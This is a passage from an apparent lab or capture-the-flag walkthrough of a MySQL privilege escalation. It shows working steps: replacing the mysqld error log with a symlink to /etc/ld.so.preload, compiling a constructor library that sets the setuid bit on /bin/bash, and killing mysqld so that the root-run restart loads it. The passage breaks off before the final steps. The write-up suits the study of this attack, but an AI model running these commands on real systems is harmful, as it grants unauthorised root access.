 We then switch to the mysql user and view `mysql`'s home directory.

```bash
su mysql

cd ~/
ls -al /var/lib/mysql
total 28724
drwxr-xr-x 1 mysql mysql     4096 Mar 23 18:08 .
drwxr-xr-x 1 root  root      4096 Mar 23 01:57 ..
-rw------- 1 mysql mysql       64 Mar 23 18:08 .bash_history
-rw-r--r-- 1 root  root       111 Mar 23 01:57 RPM_UPGRADE_HISTORY
-rw-r--r-- 1 mysql mysql      111 Mar 23 01:57 RPM_UPGRADE_MARKER-LAST
-rw-rw---- 1 mysql mysql        4 Mar 23 18:08 be2b8151db0e.pid
-rw-r----- 1 mysql root      1969 Mar 23 18:08 ddf4bcd52d7c.err
[...]
```

As outlined in the CVE advisories, we'll try to achieve privilege escalation in the following steps:

1. Delete the error logfile, which is called `ddf4bcd52d7c.err` in our case.
2. Create a symlink called `ddf4bcd52d7c.err` that links to `/etc/ld.so.preload`
3. Create a shared library that will append a setuid bit to `/bin/bash`
4. `kill -9` the `mysql` process, at which point `mysqld_safe` will notice the process is down and restart it.
5. Our hook kicks in, and alters `/bin/bash` as root.

Create our hook; `/var/lib/mysql/chmod.c`:

```c
__attribute__((constructor)) void constructor(void) { chmod("/bin/bash", 04755); }
```

Compile it:

```bash
$ gcc -shared -fPIC -o chmod.so chmod.c
```

Delete the error log:

```bash
rm ddf4bcd52d7c.err
```

Create a symlink that links to `/etc/ld.so.preload`

```bash
ln -s /etc/ld.so.preload /var/lib/mysql/ddf4bcd52d7c.err
```

Verify the symlink exists:

```
lrwxrwxrwx 1 mysql mysql       18 Mar 23 18:12 ddf4bcd52d7c.err -> /etc/ld.so.preload
```

Restart MySQL. It will create a `/etc/ld.so.preload` file owned by `mysql`. Make sure to kill `mysqld`, and **not** `mysqld_safe`:
